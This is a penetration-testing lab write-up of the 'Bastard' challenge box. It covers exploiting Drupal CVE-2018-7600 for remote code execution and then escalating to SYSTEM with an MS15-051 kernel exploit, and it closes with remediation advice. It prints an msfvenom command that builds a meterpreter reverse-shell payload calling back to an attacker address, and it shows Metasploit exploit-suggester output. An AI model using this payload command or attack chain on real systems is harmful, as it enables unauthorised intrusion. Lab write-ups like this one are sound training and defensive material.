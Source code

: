 # Bastard – Please keep things updated!

<img src="https://img-9gag-fun.9cache.com/photo/az2wrBB_460s.jpg" width=400>


## Introduction
This machine was a challenge box for the class Windows Privilege Escalation by TCM, done in preparation for the Practical Network Penetration Tester certification. In it a CMS vulnerability is highlighted for initial exploit and a privilege escalation technique is used which is the main goal of this box.


## Executive Summary
Through enumeration a webpage/site was found using the well know CMS Drupal. Investigating further reveals the exact version of Drupal which then leads to a known exploitable vulnerability (CVE-2018-7600) that allows for remote code execution (RCE) that can lead to a low level shell on the system. From this low level access more enumeration was performed, and multiple possible vulnerabilities were found due to the system not being updated. Privilege Escalation was achieved by using the vulnerability MS15-051.

## Initial Access
Utilizing Nmap, there were only a few open ports found on the system. Further investigation of the website open on port 80 revealed a website using Drupal in its creation. Combining this information with the robots.txt file’s disallowed entry of “/changelog.txt” reveals the exact version in use.

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/ecb19608-3750-4961-bff0-ca8cfaea572b)

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/3659eaea-859d-4c04-aa55-3364620aabed)

With the exact Drupal version, an exploit was found that worked for it, utilizing a python script that performs a RCE on the system without any authentication required. The proof-of-concept code used to exploit the system resides here: https://github.com/pimps/CVE-2018-7600
Test commands were run before the exploit was used to download a reverse shell and execute for low level access to the system.

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/8ad32998-116d-481d-89af-00c92a47117b)

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/987d7ad7-2953-4e02-b6a8-5d1f3eb67b83)

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/bcbe337f-cacc-4ee6-94f8-5e47cab12aa7)

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/8fa395e0-6569-4403-ad79-c6804d292047)

NOTE: meterpreter shell was used in exploit created using the command:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(attackIP) LPORT=(attackerPort) -f exe -o program.exe
```


## Privilege Escalation

With meterpreter access to the system, the Local Exploit Suggester module of Metasploit was utilized to find potential vulnerabilities to escalate privileges with.

```
[*] 10.129.180.193 - Valid modules for session 2:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2020_1054_drawiconex_lpe             Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms16_014_wmi_recv_notif                  Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
```

From this list of potential vulnerabilities the Pentester attempted to use the Metasploit modules suggested without success, but was able to find a compiled exploit that allowed for elevated command execution from github that was successful using the vulnerability MS15-051. Compiled exploit was found here: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

As with the previous Drupal exploit, test commands were run before being used in the exact same way to execute a reverse shell that gave elevated access as nt authority/system.

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/8f63ad14-4cbf-4afc-875b-4b0f4a4d1113)

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/70f6c02b-d56e-4611-8e14-71888d48f1fc)


![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/fd6ce1ac-7c43-43c6-8ac3-00c5c0067113)

![image](https://github.com/CySec-adin/Holy-Order/assets/150164688/3509020f-883e-4d45-9401-79f203f718e3)


## Suggested Mitigations and Remediations

### Drupal 7.54 (CVE-2018-7600)
Mitigation suggestions: This is a flaw within the specified versions of Drupal and not many mitigations can be done. It is suggested to remove the ability to see the changelog and other supporting documentation from view if possible to avoid revealing exact versions. This however is a minor fix and will not prevent an attack from exploiting the system.
Remediation suggestions: Update Drupal to the latest version. Keeping software updated to the latest version helps prevent known exploits from being ran as they usually are patched quickly once know.

### MS15-051 (https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051)
No migitations are suggested as this is a flaw within the windows kernel that is exploited to run elevated commands.
Remediation suggestions: apply the latest security patches from Microsoft to remedy the exploit. It is also suggested that the system be upgraded to a newer version of Windows Server as Windows Server 2008 R2 has had support ended as of 1/14/2020 (https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-server-eos-faq/end-of-support-windows-server-2008-2008r2)


## Lessons Learned

(Note: personal musings, not part of report therefore will be in first person)

The biggest thing I learned from this box is to try EVERYTHING. If you know the system is vulnerable to multiple exploits, research them, and try them. And when one avenue doesn’t work try another. I don’t mean throw anything at a system without knowing what it will do to it. Make sure it won’t damage the system, and if there a possibility it will cause the system to crash etc, make sure the customer is okay with it.

However knowing that, explore your options. I tried ALL of the Metasploit modules suggested by the local suggester and was unable to have any of them work. The wonderful thing about todays world is that there is github with compiled exploits that can be used. I was able to find the exploit used on this box and run the elevated commands needed to get an elevated shell on the system, where I wasn’t able to with the Metasploit module for the exact same exploit.

Another thing to note is that I recently read an article after reviewing my first attempt at reporting to better write a report, which shows in this one as I changed the tone and view. The article is here: https://www.blackhillsinfosec.com/how-to-not-suck-at-reporting-or-how-to-write-great-pentesting-reports/ and was very helpful with useful information about writing a better report. Going forward I’ll attempt to right reports using these suggestions and when I get through my backlog of machine writes or get bored and feel up to it, I’ll rewrite my first report using these suggestions.
